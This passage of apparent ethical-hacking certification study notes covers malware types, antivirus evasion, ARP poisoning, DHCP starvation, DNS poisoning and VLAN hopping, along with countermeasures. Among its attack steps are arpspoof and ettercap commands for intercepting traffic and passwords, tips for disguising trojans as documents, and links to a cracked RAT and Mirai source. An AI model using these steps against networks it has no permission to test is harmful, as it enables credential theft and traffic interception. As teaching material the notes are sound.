  - Intercepts the virus if it detect suspicious behavior (e.g. network access) and asks user if the user wants to continue.
  - Useful for logic bombs (only executed if certain conditions are met) or trojans
- **Code emulation**
  - Executes a virtual machine mimicking CPU and memory
  - Useful against encrypted, polymorphic or metamorphic viruses
- **Heuristic analysis**
  - Helps in detecting new or unknown viruses
  - **Static**: anti-virus decompiles and analyzes the binary
  - **Dynamic**: anti-virus runs code emulation to determine if the code is viral
  - Prone to many false positives

## Malware countermeasures

- Use up-to-date anti-virus, firewall and intrusion detection software with regular scans
- Block all unnecessary ports at the host and firewall.
- On Windows
  - Enable Windows Defender
  - Enable [Data Execution Prevention (DEP)](#data-execution-prevention-dep)
  - Run registry monitoring tools to find malicious registry entries added by the backdoor
- Enable [Address space layout randomization (ASLR)](#address-space-layout-randomization-aslr)
- Do not open files with more than one file type extension
- Use [anti-malware software](#anti-malware-software)
- Avoid accepting executables sent as messages or downloaded from untrusted sources.
- Inspect network packets using protocol monitoring tools

### Data Execution Prevention (DEP)

- 📝 Marks memory regions as non-executable, such that an attempt to execute machine code in these regions will cause an exception
- Executable space protection in Windows
- Read more on [Data Execution Prevention | Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/memory/data-execution-prevention)

### Address space layout randomization (ASLR)

- 📝 Prevents exploitation of memory corruption vulnerabilities.
- Involves randomly positioning the base address of an executable and the position of libraries, heap, and stack, in a process's address space
- Breaks assumptions that attackers could make about where programs and libraries would lie in memory at runtime
# Malware overview

- Malicious program designed
  - to cause damage to systems
  - give system access to its creators
- Includes viruses, worms, trojans, ransomware, rootkits, spyware, adware, scareware, crapware, roughware, crypters, keyloggers, botnets etc.

## Malware sources

- **Instant messenger applications**
  - E.g. WhatsApp, LinkedIn, Google Hangout etc.
- **Portable hardware media / removable devices**
  - E.g. flash drives, CDs/DVDs etc.
  - AutoRun (Autostart)
    - Windows Windows to run executable when a device is plugged in
    - Exploited by malware to run malicious code
    - 💡 Best practice to disable
- **Browser and email software bugs**
  - Older software has known vulnerabilities, always use latest versions.
- **Insecure patch management**
  - Unpatched software are risky and has vulnerabilities e.g. [MS Word](https://nvd.nist.gov/vuln/detail/CVE-2017-0281), [Excel](https://nvd.nist.gov/vuln/detail/CVE-2017-0006), [Adobe Acrobat Reader](https://nvd.nist.gov/vuln/detail/CVE-2017-3118)
- **Rogue / decoy applications**
  - By luring victim into downloading free software
  - 💡 Webmaster should do antivirus / anti-trojan scans of distributed files
- **Untrusted sites and freeware web applications/software**
  - Many hack tools may include trojans
  - 💡 Users should scan the files before executing
- **Downloading files from Internet**
  - Trojans can be distributed through e.g. music players, games, screensavers, Word/Excel macros, audio/video files, and video subtitles.
- **Email attachments**
  - Most common way to transmit malware
  - E.g. invoice, job letter, loan approval letter etc.
  - 💡 Always confirm sender's email address
- **Network propagation**
  - E.g. mistakenly allowing Internet traffic into private networks when replacing firewalls.
  - [Blaster worm](https://en.wikipedia.org/wiki/Blaster_(computer_worm)) infects sequential IP addresses.
- **File sharing services**
  - Open ports for file sharing or remote execution can be used by others to access systems
  - E.g. NetBIOS on port 139, FTP on port 21 and SMB on port 445
  - Turn off file and printer sharing
- **Installation by other malware**
- **Bluetooth and wireless networks**
  - Attackers set-up open Bluetooth and Wi-Fi networks to attract users
  - Allows attackers to inspect network traffic and find e.g. username and passwords

## Malware distribution techniques

- **Blackhat SEO**
  - Also known as ***spamdexing***, ***search engine spam***, ***search engine poisoning***, ***black-hat search engine optimization***, ***search spam*** or **web spam**.
  - Methods to make malware websites rank higher in search engine results
- [**Clickjacking**](./../13-web-applications/hacking-web-applications.md#clickjacking)
  - Tricking users into downloading malware with seemingly innocuous objects.
- **Spear phishing**
  - Spear phishing is phishing directed at specific individuals or organizations.
  - E.g. can mimic government institutions
- **Malvertising**
  - Injecting malicious advertisements into legitimate online advertising networks
- **Compromised websites**
  - Distributing malware through a compromised website
- **Drive-by downloads**
  - Downloads that happens without users knowledge or understanding of consequences
  - Can be done e.g. by exploiting vulnerabilities in browsers, email clients.

### Spam emails

- 📝 **Relaying**
  - When email is accepted and then delivered to a non-local email address
- 📝 **Open relay**
  - Allows anyone to send an e-mail without authentication
  - Allows e-mail spoofing (email messages with a forged sender address)
  - Was the default configuration in old internet but got abused by spammers/worms
  - Usually blacklisted

## Malware components

- **Payload**
  - Core component of malware, designed to execute its actual motive
- **Command and control (C&C)**
  - Remote control center for the malware
- **Crypter**
  - Software that makes malware harder to detect by security programs
  - It encrypts, obfuscates, and manipulates the malware
  - E.g. [BitCrypter](https://www.crypter.com/)
- **Downloader**
  - Requires network resource to get malware from internet
- **Dropper**
  - Has malware embedded and drops it to the system
- **Exploit**
  - Takes advantage of a software vulnerability
  - May be used to deliver malware
- **Injector**
  - Malware that injects itself (or other malware) into other processes or files
- **Malicious code**
  - Code that gives malicious functionality to the malware
- **Protectors**
  - Prevents tampering and reverse engineering of programs.
  - Usually includes packing and encrypting

### Obfuscator

- Usually a packer or protector for encrypting or compressing the malware
- Goal is
  - to make reverse engineering difficult
  - to make malware undetectable from antivirus scans

### Packer

- Short for ***runtime packers*** which are also known as ***self-extracting archives***.
- Software that unpacks itself in memory when the "packed file" is executed
- Smaller footprint on infected machine
- Make reverse engineering more difficult

### Exploit kit

- Collection of pre-written exploits in a simple one-in-all tool for managing exploits together.
- Automates 5 steps of hacking
  1. **Reconnaissance**: Gathers information on the victim machine
  2. **Scanning**: Find vulnerabilities and determines the appropriate exploit
  3. **Gaining access**: Executes malware typically through silent drive-by download
  4. **Maintaining Access**: Run post-exploitation scripts to maintain further access
  5. **Covering Tracks** by e.g. erasing logs
- E.g. RIG Exploit Kit
  - Has been used to deliver many types of malware
  - Monthly subscription fee, sold in cybercriminal circles
  - spread via suspicious advertisements that have been inserted into legitimate websites

## Malware types

### Virus

- Designed to replicate itself to other programs and documents on the infected machine.
- Spread to other computers with the transfer of the infected files or programs.
- Transmitted through file transfers, infected flash drives, and email attachments.
- See also [viruses](#virus)

### Worm

- Replicates itself across network connections, e.g. bluetooth, wireless.
- Exploits vulnerabilities on the victim machines
- E.g. [Broadpwn](https://www.youtube.com/watch?v=TDk2RId8LFo) where the worm could run code on Android iOS that has WiFi turned on.

### Ransomware

- Hackers restrict access to files and folders on the target system until a payment is made.
- Victims are usually required to pay money to access their files.
- Often encrypts own files and sells decryption key.
- An indicator is that your CPU runs on higher frequencies.
- 💡 Best practices
  - Do not pay as there's no guarantee that you'll get the key
  - Keep back-ups somewhere offsite e.g. in cloud
- E.g. • Cryptobit • Cryptolocker • Cryptodefense • Cryptowall • police-themed

## Backdoor

- Also known as ***trapdoor***, ***trap door***, ***back door***, ***back-door***, ***trap-door***.
- 📝 Provides access to a computer program that bypasses security mechanisms
- Sometimes installed by developers for e.g. troubleshooting purposes or just by mistake.
- Often created by e.g. trojans and worms as means of delivery
# Trojan

- Malware contained inside seemingly harmless programs.
  - activated when such programs are executed.
- Used to gain access and/or cause damage to victims systems.
- Run with same privileges of the victim but can exploit vulnerabilities to gain more privileges.
- Symptoms include
  - change of system settings such as disabling updates, antivirus, task manager
  - more usage of system resources such as network bandwidth and CPU.
- Broad use-cases including
  - Install other malicious code
  - Use victims computer for other attacks including DDoS, or spam e-mails
  - Steal information through keyloggers
  - Running a ransomware
  - Infect victim as proxy-server to do replay attacks

## Trojan communication

- Different trojans use different ports for communication
- 💡 Check active connections on different ports to detect presence of trojans.

### Communication paths

#### Overt channels

- Legitimate and transparent paths to send information
- E.g. HTTP and TCP/IP
- Can be exploited to create a [covert channel](#covert-channels)

#### Covert channels

- 📝 Sending information by an unknown, unmonitored way
- Outside of the security policy
- Useful to bypass multi-level security solutions in order to leak data out of a protected network
- May use [steganography](./../06-system-hacking/hiding-files.md#steganography)
  - E.g. storage channel
    - Reading tweets from Twitter to get commands from C&C servers
    - Leaves evidence behind
  - E.g. timing channel
    - Small pauses when watching a video sends encoded commands
    - Leaves almost no trace of its existence
    - Requires receiver to be actively listening
  - E.g. use of reserved fields in various packet headers/footers to conceal data
- Utilizes tunneling protocol (allows moving data between different networks)

## Trojan tools

- **Wrapper**
  - An application that can concatenate two executable files and produce an application containing both.
  - Used to embed trojans in legitimate files
  - Can utilize e.g. [`petite.exe`](https://www.un4seen.com/petite/), [IExpress](https://docs.microsoft.com/en-us/internet-explorer/ie11-ieak/iexpress-command-line-options), [`elitewrap`](https://packetstormsecurity.com/files/14593/elitewrap.zip.html)
- **Trojan Construction Kits**
  - Allows you to create a trojan in an easy way
  - E.g. DarkHorse trojan virus maker

## Steps of infecting with a trojan

1. Create a new trojan
2. Create a dropper to install the trojan
3. Create a wrapper to bind trojan into legitimate files
4. Propagate the trojan

## Techniques for evading antivirus

- Do not use a known trojan, it'll be known by antivirus
  - Write your own trojan instead
- 📝 Distribute trojan as e.g. `.doc.exe` or `.pdf.exe`
  - Because Windows hides "known extensions" by default so they appear as `.doc` or `.pdf`
- 📝 Perform code obfuscation or morphing to confuse anti-viruses
  - E.g. `alert( 'Hello, world!' );` becomes `var _0xc890=["\x68\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64"];alert(_0xc890[0])`
- Change the content / checksum or morph it to generate different signatures

## Trojan types

### Remote access trojans (RATs)

- Also known as **remote administration trojans**.
- Malware that includes a back door for administrative control over the target computer
- Includes an user interface to issue commands
- Usually has functionalities like keylogger, camera access, taking screenshots etc.
- E.g. • [Saefko](https://cracked.to/Thread-Premium-Cracked-Saefko-Attack-Systems-Most-advanced-RAT-BOT-Ever-Created-V4-FIXED), [njRAT](https://blog.malwarebytes.com/detections/backdoor-njrat/) • [turkojan](https://turkojan.blogspot.com/) • [Biodox](https://ilwebmaster.blogspot.com/2018/04/biodox-v10_16.html)

#### Covert Channel Tunneling Trojan (CCTT)

- A form of RAT
- Enables attackers to gain shell interfaces into and out of a network using authorized channels covertly

### Backdoor trojans

- Trojans that installs backdoors to give uninterrupted access to attackers
- The difference from [RAT](#remote-access-trojans-rats) is that RATs have user interface
- Can usually bypass programs e.g. by injecting connections into browser processes
- Often used to create a botnet or zombie network to execute malicious activities
- E.g. • [Qadars](https://info.phishlabs.com/blog/qadars-modular-features-that-make-this-a-true-threat) • [z3r0 Remvio](https://www.securityweek.com/customizable-remvio-trojan-available-just-58) • [SubRoot](https://www.fortiguard.com/encyclopedia/virus/7421267)
  - [QAZ Trojan (TROJ_QAZ)](http://www.pchell.com/virus/qaz.shtml)
    - Also known as notepad trojan
    - Replaces notepad.exe on the system in an effort to hide
- See also [backdoor](./malware-overview.md#backdoor)

### Botnet trojans

- ***Bot herders*** are attackers who installs bot programs on victims.
- Infected machines become one of their ***bots*** or ***zombies*** in their ***bot herd***.
- Bots are controlled through Command and Control (C&C) center.
- 📝 Bots allow attackers to
  - do DDoS attacks
  - steal data
  - send spam and access the device
- Examples
  - [Conficker](https://en.wikipedia.org/wiki/Conficker)
    - Has also worm features to infect other systems in the network.
  - [Mirai](https://en.wikipedia.org/wiki/Mirai_(malware))
    - Infects weak IoT devices.
    - Probes IoT devices in network and brute forces login on Telnet (port 23 and 2323)
    - [Open-sourced](https://github.com/jgamblin/Mirai-Source-Code)
- See also [Botnet](./../01-introduction/security-threats-and-attacks.md#botnet) and [Botnets | Denial of Service](./../13-web-applications/denial-of-service.md#botnets)

### Rootkit trojans

- Enable access to unauthorized areas in a software
- Root (privilege account in Unix) + kit (software components that implement it)
- Type of backdoors but hard to detect as it often masks its existence
  - E.g. by subverting software that's intended to find it such as hiding its name from service lists, task lists or registry viewers.
- Does not propagate by themselves as opposed to [worms](./malware-overview.md#worm)
- Often used in blended threat
  - **Blended threat** is an exploit that combines elements of multiple types of malware
  - E.g. a malware consisting of  
    - dropper (to install)
    - loader (causes e.g. buffer overflow and load rootkit into memory)
    - rootkit.
- Commonly hidden in the [boot sector](./viruses.md#boot-sector-infectors) of a hard disk to evade antivirus detection.
- E.g.
  - [FinFisher](https://finfisher.com/FinFisher/index.html) - government grade spyware
  - [EquationDrug](https://securelist.com/inside-the-equationdrug-espionage-platform/69203/) - by NSA sponsored [Equation Group](https://en.wikipedia.org/wiki/Equation_Group)
  - [Boot.Phihar](http://www.malwareremovalguides.info/how-to-remove-boot-pihar-removal-guide/) - affects MBR (master boot record), starting before OS
- See also [Rootkits | Hiding Files](./../06-system-hacking/hiding-files.md#rootkits)

### E-banking Trojans

- Intercepts account information before encryption and sends to attacker.
- Can steal e.g. credit card numbers, billing details
- Can also show false bank account information
- E.g. ZeuS (ZBot)
  - Uses man-in-the-browser keylogging and form grabbing
  - One of the most successful banking trojans
  - Used **fast flax** to evade detection
    - Uses compromised hosts as proxies for commands
    - Idea is to change DNS record of domain very quickly using hundreds of IPs

#### Banking information analysis

- Keylogging
- Form data capture
- Inserting fraudulent form fields
- Screen captures and video recording
- Mimicking financial websites
- Redirecting to banking websites
- Man-in-the-middle attack

##### Tan Gabber

- **Transaction Authentication Number (TAN)**
  - Single use [one-time passwords (OTPs)](./../01-introduction/identity-access-management-(iam).md#one-time-password-otp) to authorize financial transactions
  - E.g. ChipTAN
    - A card needs to be inserted to a device to get the code
    - Used by many German and Austrian banks
- Trojan intercepts the number and replaces it
  - User gets rejected
  - Attacker logs in using target's login details.

##### HTML injection

- Also known as **Webinjects**
- Injects HTML or JavaScript code into e-banking content before it's rendered on a web browser
- 📝 Manipulates original forms in bank webpages with additional fields
  - E.g. login credentials, credit card numbers, CVVs, PINs, tokens, etc.
- Goal is to prompt user to give out more information that'll be collected

##### Form Grabber

- Retrieves authorization and log-in credentials from a web forms before they're sent
- More effective than keyloggers as it acquire credentials even if they use virtual keyboard, autofill etc.

##### Covert credential grabber

- Hides itself on a machine
- Searches through session cookies for financial transaction info
- Sends the information the attacker

### Proxy-server trojans

- Allows attacker to use victims computers as proxy to connect to the Internet.
- Starts a hidden proxy server on victim machine
- Used for attackers for illegal activities such as purchasing goods with illegal cards
- E.g. Linux.Proxy.10, [Pinkslipbot](https://www.bleepingcomputer.com/news/security/mcafee-releases-free-tool-that-removes-pinkslipbot-leftovers-that-use-your-pc-as-proxy/)

### Defacement trojan

- Resource editors allow to view, edit, extract, and replace strings, bitmaps, logos and icons from any Windows program.
- E.g. changes title of Word documents to "You've been hacked"
- See also [Website defacement | Web threats and attacks](./../12-web-servers/web-server-threats-and-attacks.md#website-defacement)
- E.g. using [Restorator](https://appo.pro/52-restorator-2009.html) to modify files' icons.
# Viruses

## Virus type

### Stealth virus

- Virus takes active steps to conceal infection from antivirus
- 📝 Characteristic behaviors
  - Restores original file timestamp
  - Intercepts system calls to play back original information of file to e.g.
    - change system libraries to hide its existence from antiviruses
    - run the rootkit

#### Tunneling virus

- Backtracks interrupt chain to go directly to DOS and BIOS interrupt handlers
- Avoids monitoring
- Kernel software protected in other OS
- Legacy, was only possible in MS-DOS

### Logic Bomb virus

- Not self-replicating, zero population growth, possibly parasitic
- Consists of
  - Payload
  - An action to be performed
  - Trigger
    - Boolean condition to be executed
- E.g. if Bob is not getting paid then delete the [cloudarchitecture.io](https://cloudarchitecture.io) website

### Polymorphic virus

- 📝 Modifies their payload to avoid signature detection
- Mutates its payload and usually encrypts it.
- Can hide file changes against simple checksums

### Metamorphic virus

- Viruses that can reprogram/rewrite itself.
- In polymorphic virus, the mutation engine is always the same while payload is mutated, metamorphic virus can also mutate its own mutation engine.
- Usually
  - Inserts dead code
  - Reshapes the expressions
  - Reorders instructions
  - Encrypts program code
  - Modifies the program control structure
- E.g. [Win32/Simile](https://en.wikipedia.org/wiki/Simile_(computer_virus)) and [Zmist](https://en.wikipedia.org/wiki/Zmist)

### Macro virus

- Changes or creates new macro for MS Office products
- 📝 **Macros**
  - Code that is part of documents.
  - Used extensively in MS Office Tools
    - Written in or translated to Visual Basic for Applications (VBA) code
  - **Macro language**: a programming language which is embedded inside a software application
- **Protective strategies**
  - Later versions of MS Office have security levels for execution of macros
    - Level high only executes signed macros
  - MS Office provides warnings when files contain macros
- E.g. [**Concept**](http://virus.wikidot.com/concept), first macro virus for Microsoft Word (1995-1997)
  - Infects Word's global document-template `NORMAL.DOT`
  - Creates `PayLoad` and `FileSaveAs` macros
  - Infects all documents saved with the Save As command
- E.g. [**Laroux**](http://virus.wikidot.com/laroux), first macro virus for Microsoft Excel (1996)
  - Consists of `auto_open` and `check_files`
    - `auto_open` executes whenever an infected spreadsheet is opened, followed by `check_files`
    - Virus looks for `PERSONAL.XLS`
  - Virus contains no malicious payload

### File infectors

- Virus infects executables

#### Appending virus

- At the end
- To get control
  1. Save original instruction in code
  2. Replace by jump to viral code
  3. Execute virus
  4. Restore original instruction and jump to them
     - or run original instruction at saved location followed by jump to the rest of the code

#### Overwriting file virus

- 📝 Also known as **cavity virus** or **spacefiller virus**
- 📝 Houses itself in target files without altering their size.
- Virus gets control in normal execution of file
- Placement Strategies
  - Place virus in superfluous data
  - Place virus in file slack or unused allocated file space
  - Stash overwritten contents in a companion file
  - Compress (parts of) the original file, decompress
- E.g. [Lehigh](http://virus.wikidot.com/lehigh) (an early DOS virus)

#### Inserting virus

- Move target code out of way
- Intersperse small pieces of virus with infected file

#### Companion virus

- Virus gets executed before infected file
- Infected file barely changed
- Examples
  - Change name of target file
    - Copy `notepad.exe` to `notepad.exp`
    - Virus is in new `notepad.exe`, which calls `notepad.exp`
  - Virus placed earlier in search path
    - `notepad.exe` in a different directory than real `notepad.exe`
    - `notepad.com` is executed before `notepad.exe`
  - Use Windows registry to change association for `.exe` files
  - Change interpreter in ELF files
    - Typically the run-time linker, but now virus
  - Associate icon of target with virus

### Boot sector infectors

- Contains code that runs when a system starts up.
- Also known as **boot sector virus**
- 📝 Copies itself into the MBR or VBR on hard disk
  - Typically after making copy of MBR in a "safe location"
- Extinct in the wild
  - Floppies are rarely used to boot, disabling the propagation mechanism
  - OS prevent writing to a disk's boot sector without proper authorization
  - BIOS can enable boot block protection
- E.g. [Michelangelo](https://en.wikipedia.org/wiki/Michelangelo_(computer_virus)) (1991)
  - Moves original boot sector to safe location
  - Infects all floppy disks inserted into computer
  - Payload: overwrites file system with zeroes
- E.g. [Stoned Virus](https://en.wikipedia.org/wiki/Stoned_(computer_virus)) (1988)
  - Infects 360KB diskettes and MBR
  - Many variants
  - Payload: Shows "Your PC is now stoned!"

#### Boot record types

- Volume Boot Record
  - First sector of an unpartitioned storage device
  - First sector of an individual partition
- Master Boot Record
  - First sector of data storage device that has been partitioned

#### Booting

- Bootstrap loader
  - Loads software to start OS
- Multi-stage bootstrap loader
- Boot sequence on IBM-PC
  - Runs instruction at memory location F000:FFF0 of BIOS
  - Jumps to execution of BIOS startup program
  - Executes Power-On Self-Test (POST)
    - Checks, initializes devices
  - Goes through preconfigured list of devices
  - If it finds bootable device, loads, and executes boot sector
    - Assume MBR on hard drive
    - MBR contains address of bootable partition
    - Load boot sector of bootable partition
    - Boot sector moves OS kernel into memory and starts it

### Multipartite viruses

- Also known as **hybrid virus**
- 📝 Combines [file infector](#file-infectors)s and [boot record infectors](#boot-sector-infectors)
- Re-infects a system repeatedly
- In order for it to be eradicated, the whole virus has to be removed from the system
- E.g. [Ghostball](https://en.wikipedia.org/wiki/Ghostball_(computer_virus)), first multipartite virus (1989)
  - Infects both executable .COM-files and boot sectors.

### Other virus types

- **Camouflage** virus: Disguise as legit files.
- **Network**: Spreads via network shares.
- **Shell virus**
  - Like [boot sector](#boot-sector-infectors) but wrapped around application code, and run on application start.
- **Sparse infector**
  - Only fire when a specific condition is met
  - E.g. a virus which infects only the 20th time a file is executed.
# ARP poisoning

## ARP

- ARP stands for "Address Resolution Protocol"
- 📝 In charge of resolving IP addresses to MAC addresses
- Can be used for obtaining MAC addresses of devices on the network
- Packets are `ARP_REQUEST` and `ARP_REPLY`
- Commands
  - `arp -a`: displays current ARP cache
  - `arp -d *`: clears ARP cache

### ARP table

- Used to map MAC addresses to ip addresses
- Every network interface has its own ARP table
- 📝 If no ARP entry exist:
  1. Computer A broadcasts an APR request in network asking for the MAC address from a specific IP.
  2. Computer B replies its MAC and IP address
  3. Computer A inserts it to its ARP table for future use

## ARP poisoning attack

- Also known as • ***ARP spoofing*** • ***ARP spoofing*** • ***ARP cache poisoning*** • ***ARP poison routing*** • ***ARP cache flooding*** • ***ARP flooding***.
- Man in the middle attack between the victim and switch.
- Floods the target machines ARP cache with forged requests and responses.
- Exploits ARP not verifying the device authenticity
- If ARP cache becomes full, different behaviors can be observed depending on the manufacturer/implementation:
  - May [force switch to operates in fail-safe mode](https://www.trendmicro.com/vinfo/se/threat-encyclopedia/archive/security-advisories/arp%20flooding%20attack)
    - Behaves as a hub i.e. sends packets to every to all hosts
    - Same behavior is also seen in [MAC flooding](./sniffing-attacks-overview.md#mac-flooding-attack)
  - In [Linux](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/net/core/neighbour.c#n388) it may:
    - Drop the oldest / most stale entry from the table (by garbage collector)
    - Reject new entries

### ARP poisoning attack steps

1. **Gather information**
   1. Get victim IP address, e.g. `192.168.122.183`
      - E.g. through [host discovery using `nmap`](./../03-scanning-networks/scanning-tools.md#-p-ping-host-discovery-options) e.g. `nmap -sn 192.168.0.0/24`
   2. Get default gateway IP, e.g. `192.168.122.1`
      - Usually IP of the machine ending with `.1`
      - Usually same for everyone on same network
      - Default gateway is the forwarding host (router) to internet when no other specification matches the destination IP address of a packet.
2. **Enable forwarding mode to sniff the traffic**
   - `echo 1 > /proc/sys/net/ipv4/ip_forward` in Linux.
   - ❗Otherwise no traffic is going through and you're just DOSing.
3. **Attack**
   - 
   - Deceive the victim device through flooding ARP reply packets to it.
     - Change gateways MAC address is to the attackers
   - 📝 Use an ARP spoofing tool e.g.
     - [`arpspoof`](https://linux.die.net/man/8/arpspoof)
       - `arpspoof -t <victim-machine-ip> <default-gateway-ip>`
       - `arpspoof -t <default-gateway-ip> <victim-machine-ip>`
     - [`ettercap`](https://www.ettercap-project.org/)
       - Also sniffs passwords automatically
       - `ettercap -NaC <default-gateway-ip> <victim-machine-ip>`
         - `N`: make it non-interactive
         - `a`: arp posion
         - `c`: parse out passwords and usernames.
     - [Cain and Abel (Cain & Abel)](./sniffing-tools.md#cain-and-abel) on Windows
   - 
4. **Sniff**
   - Now you sniff the traffic between two devices.
     - If through HTTPS & SSL you can only see basic data such as User Agent and domain names.
   - Can use e.g. [`wireshark`](https://www.wireshark.org/) or [dsniff](https://www.monkey.org/~dugsong/dsniff/)

### ARP poisoning attack countermeasures

- Configure [DHCP snooping](./sniffing-attacks-overview.md#dhcp-snooping)
- Add **static** IP-MAC entries to the cache.
  - Then it will not process any ARP Replies received unlike a dynamic ARP cache.
- Use Intrusion Detection Systems (IDS)

## ARP poisoning countermeasures

- **ARP spoofing detection and prevention**
  - Relies on some form of certification or cross-checking of ARP responses
  - Can be implemented on individual hosts, hypervisors or switches
  - 📝 E.g. [DHCP snooping](./sniffing-attacks-overview.md#dhcp-snooping) feature on switch OS can activate **Dynamic ARP Inspection** with an internal database.
  - ❗ Not possible if any host holds a static IP, and static ARP entries must be used.
- **Static ARP entries**
  - Manually mapping IP addresses to MAC addresses (maintaining ARP entries)
  - A lot of administrative overhead
  - Provides only basic security
- **OS security**
  - Linux ignores unsolicited replies, behavior can often be configured in other OSes
# Sniffing attacks overview

- [Spoofing attacks](./spoofing-attacks.md)
- [ARP posioning](./arp-poisoning.md)

## MAC flooding

### MAC

- MAC address is a unique identifier of a network node.
- E.g. `52:54:00:e5:83:bb`
  - First three sets (`52:54:00`): Manufacturers signature
  - Last three sets is set in different ways depending on manufacturers
- Embedded in the device (firmware or some read-only part of the device)
- In a network, each device has its own MAC address
  - Associates the device with a physical port
- 🤗 If your MAC address is logged, police can use it to contact the manufacturer to ask who purchased the device.
  - Difficult to trace it if it was paid by cash.
- 💡🤗 You may have free WiFi forever if you can change your MAC address.
  - Usually checked in public places e.g. in an airport when they give you free WiFi.

#### Content Addressable Memory (CAM) table

- Used by switches
- Stores all available MAC addresses and their virtual LAN parameters for each port.
- Possible to sniff by flooding it.

### MAC flooding attack

- Flooding the switch with thousands of MAC address mappings such that it cannot keep up.
  - When the table can't keep up it starts sending every message out to every port.
  - I.e. switch is forced to behave as a hub.
- Allowed by the fixed size of the CAM table.
- Steps:
  1. Send large number of fake MAC addresses to the switch until CAM table becomes full
  2. Switch enters fail-open mode
     - where it broadcasts the incoming traffic to all ports on the network
  3. Attacker (with promiscuous mode) starts sniffing the traffic passing through the network.
- Can be followed up using [ARP spoofing](./arp-poisoning.md) to retain access to data after switches recover.
- See also [MAC spoofing](./spoofing-attacks.md#mac-spoofing)

## DHCP attacks

### DHCP introduction

- DHCP: Dynamic Host Configuration Protocol
- Client/server protocol
- Used by routers as they start a DHCP server
- Server provides following to DHCP-enabled clients:
  - IP addresses
  - Configuration information
  - Time period of the lease offer
- A possible way to drop connection of others in network is to brute-force DHCP server with "returning lease" messages.
  - It'll force everybody to lose connection and request IP addresses again

#### DHCP snooping

- Layer 2 security feature
- Built into operating system of a capable network switches
- Filters, rate-limits suspicious DHCP traffic
- Builds and maintains the **DHCP snooping binding database**
  - Also known as **DHCP snooping binding table**
  - Stores MAC + assigned IP + [VLAN](#vlan) and switch ports
  - Uses to validate subsequent requests from untrusted hosts.
- 📝 **Dynamic ARP Inspection (DAI)**
  - Defense against too many incoming ARP broadcasts.
  - Each port on VLAN is untrusted by default
  - Each IP to MAC conversion is validated using DHCP snooping binding database.

### DHCP starvation

- Exhaust all available addresses from the server
- Exploits that DHCP has a limited number of ip addresses to lease.
- A type of Denial of Service attack
- Flow
  1. Starve it, and no new clients will be able to connect
     1. Attacker broadcasts large number of DHCP REQUEST messages with spoofed source MAC addresses.
     2. Available IP addresses in the DHCP server scope becomes depleted.
     3. DHCP server becomes unable to allocate configurations to new clients and issue any IP addresses
  2. Set-up rogue (fake server) to respond to the discovery requests
     1. Attacker sets up a rogue DHCP server to respond to DHCP discovery requests.
     2. If a client accepts the rogue server as its DHCP server, then the attacker can listen to all traffic going from or to the client.
- **Tools**
  - [`yersinia`](https://linux.die.net/man/8/yersinia)
    - Start UI using `yersinia -G` then click on "Start attack"
  - [DHCPstarv](http://dhcpstarv.sourceforge.net/)

### DHCP starvation countermeasures

- Authentication
- Configure [DHCP snooping](#dhcp-snooping)
- Trusted sources
  - ❗Vulnerable to mimicing them

#### Port security

- Allows traffic from a specific MAC address to enter to a port
- Only allowing one MAC through a port
- Only one IP at a time can be requested
- ❗ Vulnerable to [spoofing MAC addresses](./spoofing-attacks.md#mac-spoofing)

## DNS poisoning

### DNS introduction

- Domain Name Server
- 📝 Protocol that resolves domain names into IP addresses using default port 53.
- Stores domain name and IP address pairs in a **DNS table**.

### DNS poisoning attack

- 📝 Also known as **DNS cache poisoning** and **DNS spoofing**
- 📝 Manipulating the DNS table by replacing a legitimate IP address with a malicious one
  - E.g. redirecting `cloudarchitecture.io` to attackers IP address.
- 🤗 Used for internet censorship in many countries.
- Flow
  1. Attacker makes DNS request to target
  2. DNS server asks the root name server for the entry
  3. Attacker floods the DNS server with a fake response for the targeted domain until legitimate response from root server is ignored
  4. The poisoned entry remains in cache for hours and even days
- Can be used after [ARP poisoning](./arp-poisoning.md) through **DNS spoof** plugin of [Ettercap](https://www.ettercap-project.org/).
- Can be followed up with e.g. • man-in-the-middle attacks • [website defacement](./../12-web-servers/web-server-threats-and-attacks.md#website-defacement) attacks

### DNS poisoning countermeasures

- **Active monitoring**
  - Monitor DNS data for new patterns such as new host
  - E.g. by using intrusion detection system (IDS)
- **Keep DNS servers up-to-date**
  - Updated versions have port randomization and cryptographically secure transaction IDs against attackers.
- **Randomize source and destination IP, query IDs, during name requests**
  - Makes harder for attackers to send spoofed responses as it'd be harder to guess the address and query ID.
- **Use HTTPS and/or TLS for securing the traffic**
  - Also known as **DNS over HTTPS (DoH)** and **DNS over TLS (DoT)**
  - SSL and TLS use certificates to verify the identity of the other party.
  - So although they do not protect against cache poisoning itself, the certificates help to protect against the results

#### DNSSEC (Domain Name System Security Extension)

- Developed by The Internet Engineering Task Force (IETF)
  - Open standards organization, which develops and promotes voluntary Internet standards
- Help verifying the true originator of DNS messaging
- 📝 Provides secure DNS data authentication by using digital signatures and encryption.
  - Adds cryptographic signatures to existing DNS records, stored in DNS name servers.
- Widely considered one of the greatest cache poisoning prevention tool as a defense
- Allows verifying that a requested DNS record comes from its authoritative name server and wasn't altered, opposed to a fake record injected in a man-in-the-middle attack.
- **Chain of trust**: E.g. `cloudarchitecture.io`'s signature is verified by `.io` signature that is verified by root certificate (signed by [IANA](https://www.cloudflare.com/en-gb/dns/dnssec/root-signing-ceremony/))
  - **IANA**: Centrally coordinates Internet for DNS Root, IP addressing, and other Internet protocol resources.

## VLAN hopping

### VLAN

- 📝 Allows multiple separate LANs/networks on same switch through logical grouping
- Provides network separation
  - Hosts one one VLAN does not see hosts on other one
- **Port-based VLAN**
  1. Designate set of ports on the switch
     - account department VLAN, shipping department VLAN..
  2. Connect devices to right ports each group is a VLAN
- **Tag-based VLAN** aka IEEE 802.1q VLANs
  - Basically a tags frames with which VLAN it belongs to
    - Frame = Primitive packet on layer 2
  - Tagged frame = IEEE 802.1q frame
  - Can tag/assign based on e.g. [802.1x](./../09-wireless-networks/wireless-networks-overview.md#ieee-8021x)
- **Trunk** (=802.1q link)
  - Allows sharing VLANs (VLAN IDs) between switches

### VLAN hopping attack

- Attacking host on a VLAN to gain access to traffic on other VLANs
- E.g. using [Frogger](https://github.com/nccgroup/vlan-hopping---frogger)
- **Switch spoofing**
  - Attacking host imitates a trunking switch
- **Double tagging**
  - Attacker prepends two VLAN tags to frames
  - Second tag is the target host
  - First switch removes first innocent VLAN tag and sends packet to second switch.
  - Allows bypassing security mechanisms and reaching the target hosts.
  - Replies are not forwarded to the attacker host

## OSPF attacks

